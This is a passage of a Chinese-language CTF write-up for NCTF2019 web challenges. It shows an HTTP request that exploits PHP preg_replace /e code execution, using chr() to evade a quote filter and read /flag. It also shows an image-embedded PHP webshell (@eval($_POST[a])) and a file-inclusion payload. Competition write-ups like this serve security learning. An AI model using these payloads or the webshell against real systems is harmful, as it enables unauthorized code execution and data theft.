 但是直接用readfile('/flag')读文件，发现单引号双引号被拦截

于是用chr()拼接表示字符串。。。。。

```
POST /index.php HTTP/1.1
Host: nctf2019.x1ct34m.com:40006
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Origin: http://nctf2019.x1ct34m.com:40006
Connection: close
Referer: http://nctf2019.x1ct34m.com:40006/index.php
Cookie: PHPSESSID=6vtpnnca8f9mjjde768sqiub4g
Upgrade-Insecure-Requests: 1

sub=text&pat=e&rep=readfile(chr(47).chr(102).chr(108).chr(97).chr(103));
```

## 0x07 flask

大佬队员，躺赢。。。。。

## 0x08 Upload your Shell
翻了一下网页就只有
```
index.php?action=imgs.html
```
有注入点
然后想着上传一个图片马
直接写一句话改后缀名不行
看起来他是要读文件头的
并且拦截了<?（有时候正常的图片文件都会有。。。。。）
考虑php的第三种写法
```
<script language="php"> 
@eval($_POST[a]);
</script>
```
刚准备用菜刀的结果告诉我一个服务器上自带的图片马的地址
用自带的action参数解析成php就完事了
payload:

```
/index.php?action=/var/www/html/upload-imgs/321fab94ed3f1e1fba698ddda303566a/Th1s_is_a_fl4g.jpg
```

## 0x09 flask_website

大佬队友带我躺赢。。。。。
